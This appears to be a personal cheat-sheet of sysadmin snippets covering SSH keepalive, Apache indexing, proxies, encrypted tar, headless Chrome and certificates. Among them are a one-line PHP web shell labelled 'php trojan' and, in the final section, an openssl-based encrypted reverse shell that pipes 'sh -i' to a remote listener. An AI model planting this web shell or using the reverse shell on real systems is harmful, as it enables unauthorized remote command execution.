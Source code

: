 # fswatch
`go install github.com/codeskyblue/fswatch`


# httpd
* [http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions](http://httpd.apache.org/docs/trunk/mod/mod_autoindex.html#indexoptions)

```
Options Indexes FollowSymLinks
IndexOptions FoldersFirst HTMLTable NameWidth=* VersionSort
```


# php trojan
```
($_=@$_GET[2]).@$_($_POST[1])
```


# ssh connection alive
## server
```
TCPKeepAlive yes #表示TCP保持连接不断开
ClientAliveInterval 300 #指定服务端向客户端请求消息的时间间隔，单位是秒，默认是0，不发送。
ClientAliveCountMax 3 #指服务端发出请求后客户端无响应则自动断开的最大次数。使用默认给的3即可。
```
### 注意：TCPKeepAlive必须打开，否则直接影响后面的设置。ClientAliveInterval设置的值要小于各层防火墙的最小值，不然，也就没用了。最后要重启sshd服务才生效
## client
```
Host * #表示需要启用该规则的服务端（域名或ip）
	ServerAliveInterval 60 #表示没60秒去给服务端发起一次请求消息（这个设置好就行了）
	ServerAliveCountMax 3 #表示最大连续尝试连接次数（这个基本不用设置）
```
## one time
`ssh -o ServerAliveInterval=30 user@host`


# secure tar
```
tar czf - package | openssl des3 -salt -k youPassword -out tar.tar.gz
# dd if=tar.tar.gz | openssl tar -d -k youPassword |tar zxf -
openssl des3 -d -salt -k youPassword -in tar.tar.gz | tar xzf -
```


# bash proxy
```
export https_proxy=10.0.0.52:8080
export https_proxy=user:pass@192.158.8.8:8080
export https_proxy=socks://10.0.0.52:1080
export https_proxy=socks4://10.0.0.52:1080
export https_proxy=socks5://10.0.0.52:1080
export ftp_proxy=socks5://10.0.0.52:1080
export no_proxy="*.aiezu.com,10.*.*.*,192.168.*.*,*.local,localhost,127.0.0.1"
```


# dig
`dig txt b.aliyuntest.com @8.8.8.8`

# shell beep
`echo -ne '\007'` or `echo -e "\a"` or `echo -n Ctrl+V Ctrl+G`

# gorpc
`protoc -I server/proto/ server/proto/geo.proto --go_out=plugins=grpc:server/proto`

# headless chrome
```
chrome --headless --disable-gpu --print-to-pdf https://www.baidu.com
chrome --headless --disable-gpu --dump-dom https://www.baidu.com
chrome --headless --disable-gpu --screenshot --window-size=1280,1696 https://www.baidu.com
```

# quick ssl
`go run $GOROOT/src/crypto/tls/generate_cert.go --host m.treevc.net`

# nc + pipe
```
nc -4kl 2222 <pipe | nc 127.0.0.1 3000 >pipe
```

# openssl s_server and s_client
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
sh -i < pipe 2>&1 | openssl s_client -quiet -connect 127.0.0.1:2333 > pipe
```
